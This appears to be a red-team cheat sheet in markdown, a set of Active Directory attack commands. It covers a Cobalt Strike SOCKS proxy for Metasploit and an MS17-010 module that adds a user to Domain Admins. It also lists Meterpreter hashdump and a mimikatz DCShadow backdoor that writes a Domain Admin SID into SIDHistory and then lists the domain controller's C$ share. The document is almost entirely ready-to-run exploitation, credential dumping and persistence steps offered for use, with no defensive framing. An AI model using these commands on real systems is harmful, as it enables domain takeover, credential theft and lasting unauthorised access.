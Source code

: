 ## SETUP MSF SOCK PROXY
````
### On CobaltStrike 
1. sock <choose a port>

### In MSF Terminal
2. setg Proxies socks4:127.0.0.1:<RHP>
````

## AUXILIARY/ADMIN/SMB/MS17_010_COMMAND
````
1. set command net group \"Domain Admins\" <USERNAME> /add /domain
2. set rhosts <IP's>
3. exploit -j
````


## METERPRETER COMMANDS

````
ps
ipconfig 
whoami
hashdump || run hashdump
````

## ACTIVE DIRECTORY DC SHADOW BACKDOOR  
### FROM A WORKSTATION
### *System Access*
````
1. Attacker obtains Domain Admins rights
2. Mimikatz register as Domain Controller in AD
3. Make replication change
4. Trigger Replication
````

````
powershell-import <Path to DCShadowPermissions.ps1>

powershell Set-DCShadowPermissions -FakeDC <computer name> -ADPATH "LDAP://CN=AdminSDHolder,CN=System,DC=<DOMAIN>,DC=<DOMAIN>,DC=<DOMAIN>" -Username <username> -Verbose

mimkatz lsadump::dcshadow /object:<username> /attribute:SIDHistory /value:<DOMAIN ADMIN SID WITH RID OF - 512>

Example: S-1-5-21-2102128754-2500892452-41739376602-512
````

### FROM A WORKSTATION
### *User/Admin Access*
````
shell whoami /user
mimikatz lsadump::dcshadow /push
shell dir \\<Domain Controller IP>\C$
````
